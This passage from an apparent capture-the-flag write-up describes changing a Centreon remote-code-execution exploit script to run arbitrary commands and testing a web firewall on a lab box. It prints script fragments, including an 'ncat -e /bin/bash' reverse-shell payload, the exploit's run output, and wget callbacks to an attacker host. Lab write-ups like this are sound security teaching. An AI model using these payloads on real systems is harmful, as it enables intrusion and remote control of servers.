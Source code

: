 ### Script Update

I decided to update the exploit script to better suit the task. I wasn't
a huge fan of having a `ncat -e` payload in there to begin with, as it's
more likely than not that `-e` won't be available. I changed the script
so that rather than trying to force a specific reverse shell, it takes a
command to run. The top looks like:



    if len(sys.argv) != 5:
        print(len(sys.argv))
        print("[~] Usage : ./centreon-exploit.py url username password command")
        exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    command = sys.argv[4]



And in the middle, I replaced:



    "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),



with:



    "nagios_bin": command,



That was good enough as far as script upgrades to get a shell. But I did
play with it some more, which I'll talk about in [Beyond
Root](#script-upgrades).

### WAF Testing

I knew that `hostname` triggered the WAF earlier on this box. It does
here as well:



    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "hostname"
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 394206ab8aca7d49e54f2cd3a4a3bd1d
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : 2cbdf5f8ce42cbeebde67e8925bfc04b
    [*] Payload inject status code: 403
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !



So I started checking different commands. `nc` gave a 403, but `curl`
and `wget` were good. Armed with those, I wanted to see if I could
create a connection back. I ran `python3 -m http.server 80` and then
issued `wget 10.10.14.30`. It returned 403.
